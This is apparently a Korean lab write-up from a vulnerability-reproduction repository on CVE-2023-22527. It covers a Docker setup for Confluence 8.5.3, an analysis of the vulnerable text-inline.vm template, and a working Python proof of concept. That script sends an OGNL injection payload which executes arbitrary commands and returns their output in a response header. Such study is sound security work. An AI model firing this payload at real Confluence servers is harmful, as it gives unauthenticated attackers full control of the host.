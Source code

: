 # CVE-2023-22527

**Author** : 6반 김명규

**github** : https://github.com/rlaaudrb1104/kr-vulhub/tree/main/Confluence/CVE-2023-22527

## 개요

- **CVE ID**: CVE-2023-22527
- **공개일**: 2024년 1월 16일
- **심각도**: CVSS 10.0 (Critical)
- **영향받는 제품**: Confluence Data Center 및 Server (버전 8.0.x ~ 8.5.3)
- **취약점 유형**: 템플릿 인젝션을 통한 OGNL(Object-Graph Navigation Language) 인젝션
- **공격자 요구 조건**: 인증되지 않은 원격 공격자
- **영향**: 임의의 시스템 명령 실행 및 전체 시스템 제어 가능

## 환경 구축

다음 명령을 실행하여 Confluence Server 8.5.3을 시작합니다.

```bash
docker compose up -d
```

`http://localhost:8090` 에 접근하면 설치 가이드가 표시됩니다. "평가판 설치"를 선택하면 라이선스 키를 입력하라는 메시지가 표시됩니다. Atlassian에서 Confluence Server 테스트 인증서를 신청해야 합니다.

![image.png](image_01.png)

데이터베이스 구성 페이지에서 다음과 같이 입력합니다.

- **Hostname** : db
- **Port** : 5432
- **Database name** : confluence
- **Username** : postgres
- **Password** : postgres

![image.png](image_02.png)

**Example Site 클릭**

![image.png](image_03.png)

**Manage users and groups within Confluence 클릭**

![image.png](image_04.png)

**admin 계정 생성**

![image.png](image_05.png)

**환경 구축 완료**

![image.png](image_06.png)

## 원인 분석

해당 취약점은 Confluence의 템플릿 파일인 text-inline.vm에서 사용자 입력을 적절히 검증하지 않고 OGNL 표현식을 평가함으로써 발생합니다. 

**취약한 코드(text-inline.vm)**

```java

#set( $labelValue = $stack.findValue("getText('$parameters.label')") )
#if( !$labelValue )
    #set( $labelValue = $parameters.label )
#end

#if (!$parameters.id)
    #set( $parameters.id = $parameters.name)
#end

<label id="${parameters.id}-label" for="$parameters.id">
$!labelValue
#if($parameters.required)
    <span class="aui-icon icon-required"></span>
    <span class="content">$parameters.required</span>
#end
</label>

#parse("/template/aui/text-include.vm")
```

이 코드는 `$parameters.label` 의 값을 `getText` 함수에 전달하고, 그 결과를 `$stack.findValue`를 통해 평가합니다. 따라서 `$parameters.label`에 악의적인 OGNL 표현식을 포함시키면 해당 표현식이 서버 측에서 실행되어 임의의 코드가 실행될 수 있습니다.

## POC

```python
import requests
import sys

cmd = sys.argv[1]

url = "http://localhost:8090/template/aui/text-inline.vm"

headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}
data = r"label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({'" + cmd + "'}))"

r = requests.post(url, headers=headers, data=data)

if (r.headers.get("X-Cmd-Response")):
    print("[+] exploit success")
    print(r.headers.get("X-Cmd-Response"))
else:
    print("No response")
```

위 코드는 명령어를 인자로 받아 취약한 Confluence 인스턴스에 POST 요청을 보내고, 실행 결과를 X-Cmd-Response 헤더에서 출력합니다. 

### POC 실행

```bash
python poc.py [cmd 명령어]
```

### 실행결과

![image.png](image_07.png)

![image.png](image_08.png)
>>>>>>> ebcc412 (CVE-2023-22527)
